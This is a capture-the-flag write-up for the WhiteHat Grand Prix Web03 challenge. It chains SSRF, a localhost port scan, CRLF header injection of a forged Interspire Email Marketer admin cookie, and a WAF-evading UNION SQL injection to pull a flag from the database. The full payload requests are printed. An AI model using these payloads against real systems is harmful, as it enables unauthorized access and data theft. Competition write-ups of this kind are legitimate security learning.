 Web03
Description: None
web03.grandprix.whitehatvn.com:1337
Solves: 10
Points: 410

--------------------------------------

The challenge starts with a web app that asks for a Host and a Urlpath. These are
used to load remote web pages in the style of:

Host: 202.182.120.169:1337
Urlpath: index.php
Request = http://202.182.120.169:1337/index.php

![initialchallenge](screenshots/initialchallenge.png)

In the HTML comments of the page:  

`<!--<label>@Buxu: Let's try to access admin page</label></br> -->`  

After searching for /admin related pages on the website and finding nothing,
I did a port scan of the localhost network. Using Burp Intruder I checked every
port with requests:

Host: 127.0.0.0:{var}
Urlpath: admin/

Eventually I discovered another web app running on 127.0.0.1:8088.

![Port8088](screenshots/port8088.png)

From here on, I used Burp
repeater for all of my requests. It comes back in slightly encoded HTML, but I was able to roughly
render it using the following site:

https://htmledit.squarefree.com/

The annoying process was:
1. Copy output from HTTP Response into top box of htmledit
2. Copy output from html edit back into the input for htmledit
3. Enjoy my not-so-beautifully rendered HTML

![htmlrender](screenshots/htmlrender.png)

At the time of writing this, I'm noticing that the output looks a LOT better if
you receive it through the challenge app instead of through Burp. Oh well!

Back to exploiting:

The  web app on 8088 is a service called Interspire Email Marketer. After some quick
googling, I found the following on exploitdb:

https://www.exploit-db.com/exploits/44513/

TLDR; there's a master cookie that should let us bypass auth. Awesome! Except it's SSRF,
so how to control the cookie...? CRLF!

(From here on, the Host is always "127.0.0.1:8088")

We can send requests in the following style:

Urlpath = `admin/index.php HTTP/1.1\r\nCookie: mycookie=foobar\r\n`

Using this format and the god cookie, we get the following ugly request:

```
admin/index.php \r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

After doing the render magic, it's shown that I suddenly have admin access (as buxuwa). Yay!

![admin](screenshots/adminaccess_1.png)
![buxuwa](screenshots/buxuwa.png)

I got stuck here for a while, trying to find a flag in the contact lists or e-mails. After giving up on that,
I found another vulnerability in Interspire Email Marketer on exploitdb:

https://www.exploit-db.com/exploits/37935/

There's a sqlinjection via the dynamiccontenttags Addon! We just need to use a payload of:

`?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1'+UNION+Select+1,2,3,4-- -`

When trying to get this to work, I quickly discovered there's a WAF that prevents certain
common SQLi commands from being sent via the challenge webapp.
`', ", UNION, OFFSET` were all forbidden.

![waf](screenshots/waf.png)

However, URL encoding any of these characters worked perfectly.
`UNION` becomes `%55NION` (%55 == 'U')
`'` becomes '%27'

(I've changed the 2 to 'Hello Hackers' for this screenshot)

![sqli](screenshots/sqli.png)
![rendered_sqli](screenshots/rendered_sqli.png)


From here it's very standard MySQL injection. Using the payloads here:
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

I was able to enumerate through databases, tables, and columns using the '2' in the UNION query above as my
output point. (anything in that spot will be displayed in the response).

It's discovered that we're in database "emailmarketer" and there's a table called "flag_wh"
with column "s3cret":

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+Select+1,table_name,3,4+FROM+information_schema.tables+WHERE+table_schema+=%27emailmarketer%27--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag_wh](screenshots/flag_wh.png)
![flag_wh_rendered](screenshots/flag_wh_rendered.png)

Screenshot and query above shows finding the flag_wh table.


So now it's as easy as getting `s3cret` from `flag_wh`:

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+SELECT+1,s3cret,3,4+FROM+flag_wh--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag](screenshots/flag.png)
![flag](screenshots/flag_rendered.png)

`WhiteHat{cbb66097f69c3938bfd4a157ab4ebe762a16c1b1}`

After solving it, I was contacted by an admin who informed be that using dynamiccontenttags was not
the intended solution. Apparently there's some other method to exploit it,
but I have no idea what it is.
